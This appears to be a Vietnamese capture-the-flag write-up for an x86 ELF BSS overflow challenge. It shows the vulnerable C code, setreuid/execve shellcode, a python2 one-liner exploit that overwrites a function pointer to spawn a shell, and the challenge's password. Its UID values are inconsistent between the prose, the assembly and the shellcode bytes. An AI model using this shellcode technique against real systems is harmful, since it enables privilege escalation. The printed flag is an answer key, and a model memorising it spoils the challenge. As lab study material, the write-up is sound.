


# ELF x86 - BSS buffer overflow

```c
#include <stdio.h>
#include <stdlib.h>
 
char username[512] = {1};
void (*_atexit)(int) =  exit;
 
void cp_username(char *name, const char *arg)
{
  while((*(name++) = *(arg++)));
  *name = 0;
}
 
int main(int argc, char **argv)
{
  if(argc != 2)
    {
      printf("[-] Usage : %s <username>\n", argv[0]);
      exit(0);
    }
   
  cp_username(username, argv[1]);
  printf("[+] Running program with username : %s\n", username);
   
  _atexit(0);
  return 0;
}

```

Đây là một bài bss overflow, nhưng nó chả có ý nghĩa gì cả. Biến `_atexit` chứa địa chỉ một hàm và được gọi lúc sau tương tự với ta ghi đè return address. Ta dùng lỗi buffer overflow ở `cp_username` để ghi đè lên biến `_atexit` và nhảy về vùng shellcode của ta ghi ở mảng `username`.

Dùng gdb tìm địa chỉ của biến `username` và `_atexit`, `_atexit = username + 512`



Viết shellcode gọi `setreuid(1210, 1110)` và `system(“/bin/sh”, 0, 0)`

```assembly
section .text
	global _start:

_start:
	xor edx, edx
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov bx, 1207
	mov cx, 1107
	mov al, 0x46
	int 0x80	

	xor eax, eax
	xor ecx, ecx
	push eax
	push 0x68732f2f
	push 0x6e69622f
	push esp
	pop ebx
	mov al, 0xb
	int 0x80
```

Exploit:

```shell
./ch7 $(python2 -c "print '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x46\x66\xbb\xb7\x04\x66\xb9\xb7\x04\xcd\x80\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\xb0\x0b\xcd\x80' + 'A' * (512 - 39) + '\x40\xa0\x04\x08'")
```



pass là: `aod8r2f!q:;oe`
